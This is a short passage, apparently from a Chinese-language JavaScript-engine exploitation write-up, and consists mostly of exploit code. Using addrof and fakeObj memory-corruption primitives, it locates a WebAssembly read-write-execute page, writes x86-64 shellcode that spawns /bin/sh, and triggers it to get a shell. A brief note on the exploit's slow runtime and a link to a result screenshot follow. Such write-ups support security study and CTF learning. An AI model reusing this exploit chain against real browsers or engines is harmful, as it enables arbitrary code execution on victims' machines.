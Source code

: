 ```bash
print("[+] get address of RWX Page");
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print(`[+] rwx addr: ${code_addr}`);
fakeObj(mem, code_addr.asDouble());
print("[+] write shellcode");
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
print("[+] GetShell");
f();
```

exp 运行结果如下图，因为有大量循环，所以运行稍慢。

[![](assets/1700528963-9a226a88a9cfa1de0fe3edcf06e88cc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119200953-8c0df430-86d4-1.png)
